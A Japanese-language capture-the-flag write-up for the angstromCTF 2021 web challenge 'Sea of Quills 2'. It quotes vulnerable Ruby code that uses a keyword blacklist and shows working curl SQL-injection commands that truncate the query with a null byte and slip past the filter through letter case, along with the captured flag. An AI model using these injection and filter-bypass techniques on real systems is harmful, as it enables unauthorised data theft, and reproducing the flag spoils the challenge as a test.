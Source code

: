 # Sea of Quills 2:Web:160pts
A little bird told me my original quills store was vulnerable to illegal hacking! I've fixed [my store now](https://seaofquills-two.2021.chall.actf.co/) though, and now it should be impossible to hack!  
[Source](app.rb)  

# Solution
サイトの構成は[Sea of Quills](../Sea_of_Quills)と同じなようだ。  
配布されたapp.rbを見てみる。  
```ruby
~~~
db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\"", "flag"]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	
	if cols.length > 24 || !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
~~~
```
ブラックリストにflagが追加され、文字数制限もついているようだ。  
まずは文字数制限を突破したい。  
SQL文を中断させたいが終端やコメントを示す記号はブラックリストに入っている。  
ここでヌルバイトでもSQL文が終了することに気づく。  
以下のように試すことができる。  
```bash
$ curl -X POST https://seaofquills-two.2021.chall.actf.co/quills -d "limit=1000&offset=0&cols=* from sqlite_master %00"
~~~
                                        <img src="table" class="w3 h3">
                                <li class="pb5 pl3">quills <ul><li>quills</li></ul></li><br />

                                        <img src="table" class="w3 h3">
                                <li class="pb5 pl3">flagtable <ul><li>flagtable</li></ul></li><br />
~~~
```
先ほどと同じテーブル構成のようだ。  
次にブラックリスト中のflagを突破する。  
これはSQLiteがテーブル名の大文字小文字を区別しないことより、Flagとすればよい。  
```bash
$ curl -X POST https://seaofquills-two.2021.chall.actf.co/quills -d "limit=1000&offset=0&cols=* from Flagtable %00"
~~~
                                        <img src="actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}" class="w3 h3">
                                <li class="pb5 pl3"> <ul><li></li></ul></li><br />
~~~
```
flagが入っていた。  

## actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}